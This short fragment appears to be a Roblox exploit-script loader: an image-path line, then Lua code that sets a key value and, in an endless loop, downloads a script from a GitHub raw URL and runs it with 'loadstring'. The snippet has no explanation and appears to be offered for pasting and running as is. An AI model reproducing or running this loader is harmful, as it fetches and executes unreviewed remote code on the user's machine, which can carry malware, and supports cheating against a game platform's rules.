 while true do 
_G.Key = "H7gT9KpO2Wm1LzYv"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Marukulaes/AtlasX/refs/heads/main/script"))() 
end

